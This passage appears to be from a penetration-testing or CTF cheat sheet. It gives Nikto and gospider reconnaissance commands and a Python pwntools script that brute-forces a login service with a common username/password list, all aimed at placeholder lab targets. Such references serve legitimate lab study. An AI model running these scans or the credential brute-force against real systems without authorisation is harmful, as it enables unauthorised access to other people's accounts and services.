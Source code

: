 [https://github.com/six2dez/OneListForAll](https://github.com/six2dez/OneListForAll)

## Nikto

```sh
nikto -url http://$IP:$PORT/$PATH
```

## gospider

{% code overflow="wrap" fullWidth="true" %}
```sh
gospider -s http://website.com --js -t 20 -d 2 --sitemap --robots -w -r > urls.txt
gospider -s http://$IP --js -t 20 -d 3 --sitemap --robots -w -r
gospider -s http://$IP/$PATH --js -t 20 -d 3 --sitemap --robots -w -r | grep -oP '/[a-z].*' | sort -u
```
{% endcode %}

## User/Pass Bruteforce Script

```python
#!/usr/bin/env python3

from pwn import *
import sys

host, port = 'BOX_IP', 31337

# https://raw.githubusercontent.com/shipcod3/Piata-Common-Usernames-and-Passwords/master/userpass.txt

with open('userpass.txt') as f:
    data = f.readlines()

for creds in data:
    (username, password) = creds.split(' ')
    username = username.strip()
    password = password.strip()

    s = remote(host, port, level='error')
    
    s.recvuntil('username> ')
    s.sendline(username)
    s.recvuntil('password> ')
    s.sendline(password)

    msg = s.recvline()
    if b'authentication failed' not in msg:
        print("[+] Valid credentials found: {}:{}".format(username, password))
        sys.exit(0)

    s.close()
```
